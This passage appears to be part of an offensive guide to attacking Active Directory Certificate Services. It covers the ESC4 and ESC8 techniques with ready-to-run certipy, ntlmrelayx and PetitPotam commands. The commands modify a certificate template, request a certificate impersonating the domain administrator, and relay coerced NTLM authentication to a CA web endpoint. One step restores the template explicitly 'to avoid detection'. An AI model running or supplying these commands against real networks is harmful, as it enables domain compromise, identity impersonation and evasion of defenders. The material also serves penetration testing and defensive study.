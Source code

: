 **Impact:** Every template becomes ESC1-like

---

#### ESC4 - Vulnerable Template ACLs

**The Vulnerability:**

- You have `WriteDacl`, `WriteProperty`, or `WriteOwner` permissions on a certificate template
- Can modify the template to make it vulnerable to ESC1
- Then exploit it

**Checking Permissions:**
```bash
certipy find -u 'user@corp.local' -p 'password' -dc-ip 192.168.1.10 -vulnerable

# Output might show:
# Template: SafeTemplate
#   Permissions:
#     IT-USERS: Enroll, WriteProperty  ← Can modify template!
```

**Exploitation:**
```bash
# Step 1: Modify template to allow SAN specification
certipy template -u 'user@corp.local' -p 'password' \
    -template 'SafeTemplate' \
    -save-old

# Step 2: Now exploit as ESC1
certipy req -u 'user@corp.local' -p 'password' \
    -ca 'CORP-CA' \
    -template 'SafeTemplate' \
    -upn 'administrator@corp.local'

# Step 3: (Optional) Restore template to avoid detection
certipy template -u 'user@corp.local' -p 'password' \
    -template 'SafeTemplate' \
    -configuration SafeTemplate.json
```

---

#### ESC8 - NTLM Relay to AD CS HTTP Endpoints

**The Vulnerability:**

- Certificate Authority web enrollment endpoint (HTTP) doesn't require signing
- Can relay NTLM authentication to CA and request certificates

**Exploitation:**
```bash
# Step 1: Start ntlmrelayx targeting CA web enrollment
impacket-ntlmrelayx -t http://ca-server/certsrv/certfnsh.asp \
    -smb2support \
    --adcs \
    --template 'User'

# Step 2: Coerce authentication (e.g., via PetitPotam, PrinterBug)
python3 PetitPotam.py -u 'user' -p 'password' \
    attacker-ip \
    target-machine

# Step 3: Relay captures authentication, requests certificate
# Certificate saved automatically by ntlmrelayx
```
